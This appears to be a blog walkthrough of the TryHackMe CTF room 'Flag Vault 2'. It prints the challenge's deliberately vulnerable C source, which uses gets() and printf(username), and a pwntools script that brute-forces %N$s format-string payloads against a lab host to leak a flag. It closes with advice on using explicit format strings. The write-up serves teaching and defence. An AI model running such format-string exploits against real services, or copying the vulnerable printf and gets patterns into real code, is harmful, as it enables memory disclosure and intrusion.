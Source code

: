 ```yaml
---
title: "Flag Vault 2 CTF TryHackMe Walkthrough"
slug: flag-vault-2
layout: post
excerpt_separator: <!--more-->
categories:
  - ctfs
---
```


![](https://raw.githubusercontent.com/j4ke-exe/j4ke.io/refs/heads/main/assets/media/flag-vault-2-banner.jpg){: .center-image }

In this TryHackMe CTF challenge, [Flag Vault 2](https://tryhackme.com/room/hfb1flagvault2), our objective is to analyze and exploit a binary vulnerable to a format string attack. This vulnerability enables attackers to read arbitrary memory addresses or leak data on the stack by abusing the printf function without a format string.

<br>

## Step 1: Analyze Source Code

```c
#include <stdio.h>
#include <string.h>

void print_banner(){
    printf( "  ______ _          __      __         _ _   \n"
        " |  ____| |         \\ \\    / /        | | |  \n"
        " | |__  | | __ _  __ \\ \\  / /_ _ _   _| | |_ \n"
        " |  __| | |/ _` |/ _` \\ \\/ / _` | | | | | __|\n"
        " | |    | | (_| | (_| |\\  / (_| | |_| | | |_ \n"
        " |_|    |_|\\__,_|\\__, | \\ / \\__,_|\\__,_|_|\\__|\n"
        "                  __/ |                      \n"
        "                 |___/                       \n"
        "                                             \n"
        "Version 2.1 - Fixed print_flag to not print the flag. Nothing you can do about it!\n"
        "==================================================================\n\n"
          );
}

void print_flag(char *username){
    FILE *f = fopen("flag.txt","r");
    char flag[200];

    fgets(flag, 199, f);
    //printf("%s", flag);

    printf("Hello, ");
    printf(username);
    printf(". Was version 2.0 too simple for you? Well I don't see no flags being shown now xD xD xD...\n\n");
    printf("Yours truly,\nByteReaper\n\n");
}

void login(){
    char username[100] = "";

    printf("Username: ");
    gets(username);

    // The flag isn't printed anymore. No need for authentication
    print_flag(username);
}

void main(){
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    // Start login process
    print_banner();
    login();

    return;
}
```

### Observations:
- The vulnerable function is `print_flag()`, which accepts an unsanitized user input `username` and passes it directly into `printf()`.
- `gets()` is also bad, considering it allows an attacker to input without bounds checking, which can result in a **buffer overflow**.
- The flag is stored in memory in a buffer called `flag`, but the actual call to `printf("%s", flag)` has been commented out. The idea is that the flag is in memory but inaccessible... or is it?

<br>

## Step 2: Understand the Vulnerability

### What's happening?

The `username` buffer is read using `gets()`--which has no bounds checking (insecure)--and is passed directly to `printf()`:

```c
printf(username);
```

This introduces a **format string vulnerability**, where if user input contains format specifiers (like `%x`, `%s`, `%n`, etc.), they are interpreted by `printf()`, resulting in unwanted behavior.

<br>

### Why is it vulnerable?

Passing user-controlled input directly into `printf()` without a format string leads to undefined behavior, allowing attackers to:

- Leak stack contents via `%x`/`%s`
- Write arbitrary memory using `%n`
- Control execution flow

In this case, the goal is to grab the flag string stored in memory. Since it’s read with `fgets()` and stored in `char flag[200]`, we can try to leak stack positions where `flag` is located.

<br>

## Step 3: Exploit

Below is a simple Python script I wrote to brute-force stack positions with payloads like `%1$s`, resulting in leaking a stack position that contains the flag.

```python
import os
from pwn import *

TARGET_IP = '10.10.180.45'
TARGET_PORT = 1337

for i in range(1, 50):
    payload = f'%{i}$s'.encode()
    print(f'[+] Trying %{i}$s')
    r = remote(TARGET_IP, TARGET_PORT, timeout=5)
    r.recvuntil(b'Username:')
    r.sendline(payload)
    output = r.recvall(timeout=2).decode(errors='ignore')
    r.close()

    if 'THM{' in output:
        print(f'\nFound flag: {output}')
        break
    elif os.name == 'nt':
        os.system('cls')
    else:
        os.system('clear')
```

### Output:
```
[+] Trying %5$s
[+] Opening connection to 10.10.214.114 on port 1337: Done
[+] Receiving all data: Done (145B)
[*] Closed connection to 10.10.214.114 port 1337

Found flag:  Hello, THM{REDACTED}
. Was version 2.0 too simple for you? Well I don't see no flags being shown now xD xD xD...

Yours truly,
ByteReaper
```

<br>

### How does this work?

- `printf(username)` interprets `%5$s` as "read the 5th item on the stack as a pointer to a string".
- This is where the `flag` buffer resides in memory after being populated by `fgets()`.

<br>

---

<br>

## Hotwash

### Format String Vulnerabilities

When user input is passed to `printf()` or similar functions **without a format string**, you expose yourself to:

- **Memory leaks** via `%s`, `%x`
- **Memory writes** via `%n`
- **Execution redirection** (advanced)

### Vulnerable Patterns

```c
printf(username);         // vulnerable
printf("%s", username);   // secure
```

Learn more: [OWASP Format String Vulnerabilities](https://owasp.org/www-community/attacks/Format_string_attack)

{% include note.html content="Regardless of whether you're printing a simple or complex string, always use an explicit format string to mitigate this attack vector." %}

<br>

## Room Created By
- [munra](https://tryhackme.com/p/munra)
- [hadrian3689](https://tryhackme.com/p/hadrian3689)
